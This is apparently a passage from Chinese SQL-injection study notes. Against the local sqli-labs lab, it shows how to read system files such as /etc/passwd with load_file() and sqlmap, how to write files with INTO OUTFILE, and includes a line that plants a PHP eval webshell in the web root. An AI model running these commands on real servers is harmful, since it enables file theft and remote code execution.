 ###### ①load_file()

```
//windows系统下：
load_file("c:/windows/win.ini")		//可以使用16进制编码来操作内容
load_file("c://windows//win.ini")
load_file("c:\\windows\\win.ini")
//Linux系统下：
load_file("/etc/passwd")
```

###### ②--file-read()

* 原理：利用**load_file()**函数

```
sqlmap -u [url] --file-read "文件绝对路径"		//读取文件可以是文本、二进制文件

python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --file-read "D:\phpstudy_pro\WWW\test.txt"
```

##### b. 写文件

###### ①满足条件

1. 有**写文件**权限
   * **secure-file-priv**要么禁用，要么设置了路径
   * mysql有对某个**目录读写**的权限
2. **知道绝对路径**
3. 必须能**绕过单引号过滤**

###### ②使用--sql-query、--sql-shell

* 原理：利用mysql的 **outfile、dumpfile**函数

```
1. 向文件写入内容
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select 1,2,'aaa' into outfile 'D:\phpstudy_pro\test5.txt'" --batch
2. 写入webshell
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select '<?php eval($_POST[1]);?>' into outfile 'D:\phpstudy_pro\WWW\shell3.php'";		//可以转化为16进制写入
3. 获取绝对路径
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@datadir;"
4. 查看secure_file_priv的值
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@secure_file_priv;"
```

##### c. 上传文件

###### ①--file-write、--file-dest

```
sqlmap -u [URL] --file-write [源路径的绝对地址] --file-dest [目的路径的绝对地址]
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --file-write "C:\\123.txt" --file-dest "C:\\phpstudy_pro\\www\\test.php"
```
